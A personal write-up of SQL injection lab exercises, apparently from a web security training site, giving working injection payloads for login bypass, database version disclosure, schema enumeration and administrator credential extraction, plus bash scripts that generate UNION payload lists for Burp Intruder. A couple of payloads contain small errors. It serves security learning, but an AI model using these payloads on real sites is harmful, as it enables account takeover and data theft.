# SQL Injection
## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data


### Description
The lab entailed exploiting the SQL query `SELECT * FROM products WHERE category = '{category}' AND released = 1` through a SQL injection vulnerability.

### Solution
Encoding `'OR released=0` as `'OR%20released%3d0%20--` and submitting it as a parameter to `/filter?category=` was sufficient.
`/filter?category='OR%20released%3d0%20--`

---

## 2. SQL injection vulnerability allowing login bypass


### Description
The lab entailed exploiting a vulnerable login form through SQL injection. The goal was to force a login to the account `administrator`.

### Solution
Submitting the form with the username `' OR username='administrator' AND 1=1 --` and the password as any valid string bypassed the login.

---

## 3. SQL injection attack, querying the database type and version on Oracle


### Description
The lab entailed exfiltrating the version of Oracle SQL from the server by injecting a payload through the URL parameters.

### Solution
The original SQL query is something along the lines of: `SELECT * FROM table WHERE category='{category}' ...`. \
With the above information, we can first submit a non-malicious request and observe how many columns we expect the table to have. In this lab, the following is returned upon entering `category=Gifts`:



We can observe a list of four items, each with a title and description. Therefore, we could perhaps guess that it has 2 or 3 columns, depending on whether or not this table has an `id` column.

Next, we construct another command to retrieve the version using the `UNION` keyword. We can retrieve the version from a view labelled `v$version`, under the column `banner`. Therefore, we can use `SELECT banner FROM v$version` under normal circumstances to retrieve the version.

However, because we have to use `UNION` to execute this command, the must ensure that the 2nd `SELECT` command returns the same number of **compatible** columns as the 1st. We may "pad" the number of columns by adding `NULL` (type-inferred) as a parameter for the `SELECT` keyword: `SELECT banner, NULL FROM v$version`. 

For this lab, I simply guessed that the `products` table had two columns, for which the following URL query payload became the final solution: `'%20UNION%20SELECT%20banner,%20NULL%20FROM%20v$version%20--`

---

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft


### Description
Similar to question [3](#3-sql-injection-attack-querying-the-database-type-and-version-on-oracle), but the underlying database is MySQL.

### Solution
There are only two differences from question. Instead of `SELECT banner FROM v$version`, MySQL can directly use `SELECT VERSION()`. This can be adapted to `SELECT VERSION(), NULL FROM dual` to support the union. Another difference is that the comment marker `--` **must** be followed by whitespace in order to start a comment. 

The final solution is the following payload: `'+UNION+SELECT+VERSION(),+NULL+FROM+v$version+--+`

I have also started to use `+` instead of `%20` for the sake of ~~my sanity~~ readability.

---

## 5. SQL injection attack, listing the database contents on non-Oracle databases

### Description
Difficulty ramped a bit with this one.
The lab entailed exfiltrating details about the tables present within the database along with the columns of a particular table, on top of exfiltrating data out of that particular table. The goal was to find the account details for the user `administrator`.

### Solution
Before this question, we have only had access to the `products` table. However, we need to retrieve user details in this question. Therefore, we needed a way to find all the existing tables on the database. It was specified that the database was non-Oracle, so we may retrieve all database names with the query `SELECT table_name FROM information_schema.tables`. 

We can apply the previous tricks to fit this into a union in the context of this lab: `UNION SELECT table_name, NULL FROM information_schema.tables`. 

The payload to retrieve all database names is as follows:
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables+--+`

Submitting the above payload results in the following (I started using BurpSuite as it was a lot faster to repeatedly test):



As seen, we managed to get the database to regurgitate all of its tables onto the HTML. I did a quick `CTRL+F` for the keyword "user", and found one that seems to be the most likely candidate: `users_rrudmq`. It seems like they've attached the hash value `rrudmq` to the table name so that people couldn't just guess!

The next step was to now check for all the columns. Due to the `UNION`, we have a hard limit of **two** columns to retrieve from the table. A `users` table may contain many more than two columns. Incidentally, we may still use the `information_schema` system database to query for the columns of a table, using `information_schema.columns`. 
Therefore, the final payload for this is:
`'+UNION+SELECT+column_name,+NULL,FROM,information_schema.columns+WHERE+table_name%3d'users_rrudmq'+--+`

Upon submitting this payload using BurpSuite, the following is what I received:



As seen, even the column names had hash values attached to them to prevent guessing. There's even an extra "email" column to prevent using the wildcard operator to simply fetch everything (as it would cause an error in the `UNION` because the `products` table only had 2 columns).

As the final step, I only had to fetch the columns `username_kthzzr` and `password_vxdqhk` from the table `users_rrudmq`. 
The following payload solved this:
`'+UNION+SELECT+username_kthzzr,+password_vxdqhk+FROM+users_rrudmq+--+`

And with the details fetched, I logged into the account and solved the lab.

---

## 6. SQL injeciton attack, listing the database contents on Oracle databases


### Description
Almost the same as [5.](#5-sql-injection-attack-listing-the-database-contents-on-non-oracle-databases), except the underlying database is Oracle.

### Solution
The only difference is the fact that the metadata for tables in Oracle DBs is stored in different tables. `ALL_TABLES` is where we can find table names, and `ALL_TAB_COLUMNS` is where we can find the column names for each table. I kept the whitespace after the comment marker `--` to reduce mental overhead.

First, we use `UNION SELECT table_name, NULL FROM ALL_TABLES` to fetch all table names.
The following payload fetches the names of all existing tables in the database:
`'+UNION+SELECT+table_name,+NULL+FROM+ALL_TABLES+--+`

The above results in the following table name being reflected in the HTML:
`USERS_IDUFGY`

Then, we need to find the column names of said table with `UNION SELECT column_name, NULL FROM ALL_TAB_COLUMNS WHERE table_name='USERS_IDUFGY'`

This results in the following payload:
`'+UNION+SELECT+column_name,+NULL+FROM+ALL_TAB_COLUMNS+WHERE+table_name%3d'USERS_IDUFGY'+--+`

Which results in the following HTML fragments being reflected (reverted to using text for readability):
> ```
> <tbody>
>     <tr>
>         <th>EMAIL</th>
>     </tr>
>     <tr>
>         <th>PASSWORD_BJMROB</th>
>     </tr>
>     <tr>
>         <th>USERNAME_POWVYJ</th>
>     </tr>
> </tbody>
> ```

And for the final (exfiltration) step, we need to find the login details of `administrator`. The SQL query for this would be `UNION SELECT USERNAME_POWVYJ, PASSWORD_BJMROB FROM USERS_IDUFGY WHERE USERNAME_POWVYJ='adminsitrator'`.

This results in the following payload:
`'+UNION+SELECT+USERNAME_POWVYJ,+PASSWORD_BJMROB+FROM+USERS_IDUFGY+WHERE+USERNAME_POWVYJ%3d'administrator'+--+`

Which, finally, gives us our holy grail:
> ```
> <tr>
>     <th>administrator</th>
>     <td>efdrsun95to7myrsiwr1</td>
> </tr>
> ```

With that, I logged into the administrator account, and the lab was solved. Not a single internal server error this time!

---

## 7. SQL injection UNION attack, determining the number of columns returned by the query


### Description
Another ramp-up in difficulty. The lab entails figuring out how many columns are in the table that contains the product details through a SQL injection UNION attack.

### Solution
Since we are forced into the latter half of a `SELECT` statement (i.e. `SELECT * FROM [table] WHERE category='{category}' ...`), there is little choice but to try and `UNION` a series of `NULL`s until we get a `200 OK` from the server instead of `500 Internal Server Error`.

To make this easier, I created a bash script as follows:
> ```bash
> min=${1:-1}
> max=${2:-100}
> 
> for ((i=min; i<=max; i++)); do
>         printf 'NULL'
>         for ((j=1; j<=i; j++)); do
>                 printf ', NULL'
>         done
>         printf '\n'
> done > null.txt
> ```

The above bash script will take two inputs, a minimum number and a maximum number. Upon being run, it will output a newline-separate series of NULLs, where the number of nulls is equivalent to its line number:
> ```
> NULL
> NULL, NULL
> NULL, NULL, NULL
> ...
> ```

I used this script to generate a series of NULLs up to 250 and loaded it into BurpSuite's Intruder, as follows:



I then included a payload position in the request to be substituted every iteration:



I launched the attack and waited patiently... only for it to succeed on attempt 3.



Just like that, the lab was finished. The query had three columns. How anti-climactic.

---

## 8. SQL injection UNION attack, finding a column containing text


### Description
An extension of [7](#7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query). In this lab we have to find which one of the three columns is compatible with string values. As this is similar to Q7, some images that were included there will be omitted and instead be described by text.

### Solution
First, we have to repeat the attack done in Q7 to find out how many columns exist in the table of the query. This involves adding `NULL`s in the `SELECT` parameter:
> ```
> SELECT NULL
> SELECT NULL, NULL
> SELECT NULL, NULL, NULL
> ...
> ```

I used the bash script I made in Q7 to generate such a list from 1 to 250 NULLs, then loaded it into BurpSuite's Intruder. Again, the attack succeeded at 3 NULLs, meaning there were 3 columns in the queried table.

Next is the meat of the question. In order to find which column is compatible with string values, we can permute an `n`-long series of NULLs, where `n` is the number of columns available on the table. The only permutation is the position of the string value that the lab wants to see, which in this case was `hZFwTl`. 

Naturally, I made a bash script to help me do this, in case this is needed again in the future:
> ```
> for ((i=0; i<pos; i++)); do
> 	for ((j=0; j<pos; j++)); do
> 		if ((i == j)); then
> 			printf '%s' "'$word'"
> 		else
> 			printf 'NULL'
> 		fi
> 		if ((j < pos-1)); then
> 			printf ','
> 		fi
> 	done
> 	printf '\n'
> done > permutate.txt
> ```

The above script does exactly what I described and saves it to a text file, which I could load into BurpSuite's Intruder.

After starting the attack, it turned out that the 2nd column was the one that was compatible with string values:


Lab finished!

## 9. SQL injection UNION attack, retrieving data from other tables


### Description
The culmination of what I did in 1-8. The lab entails injecting queries into a query fragment for a table that is separate from where user details are stored in order to find details for the user `administrator`. The lab completes upon successful login with the account's details.

### Solution
First, I needed to figure out how many columns existed on this table. Just like I did in [7](#7-sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query), I used my bash script to generate a series of NULLs up to 250, and used BurpSuite's Intruder to automate the attack. As it turns out, there were 2 columns in the queried table.

